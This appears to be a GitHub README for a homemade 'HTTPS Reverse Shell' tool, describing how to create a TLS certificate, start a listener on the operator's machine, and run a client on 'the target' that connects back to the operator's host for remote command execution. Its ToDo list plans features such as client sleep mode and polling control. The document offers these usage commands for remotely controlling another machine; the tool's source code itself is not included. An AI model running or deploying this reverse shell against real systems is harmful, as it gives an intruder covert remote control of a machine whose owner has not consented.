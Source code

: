 # HTTPS Reverse Shell

**Work in Progress!** 

I hacked this together in two days, so take care.

It basically works, but a lot of stuff is still missing/hacky. Especially if two clients connect at the same time, things get wild.

## Create Cert and Key for server

```bash
openssl req -new -newkey rsa:4096 -days 730 -nodes -x509 -keyout server.key -out server.crt
```

When prompted write whatever. Or mash enter. Put these in the same directory as the server or supply the paths via command line arguments.

## Howto

On your own machine (use sudo/root for low ports):

```bash
sudo python3 server.py -p 443
```

On the target:

```bash
python3 client_3.py -p 443 -t <your_ip_or_hostname>
```

Use the parameter `--help` on either to see all possible parameters.

## Requirements

None

## ToDo

* Monitor status of client
* Handle multiple clients
* Proper client session instead of just RCE
* Python2 version of client
* C version of client
* Actually take Content-Length into account for big responses [done]
* Auto-create key/cert
* Control client polling speed
* Put client into sleep mode
* Reasonable retries by the client if server does not exist/respond (yet)
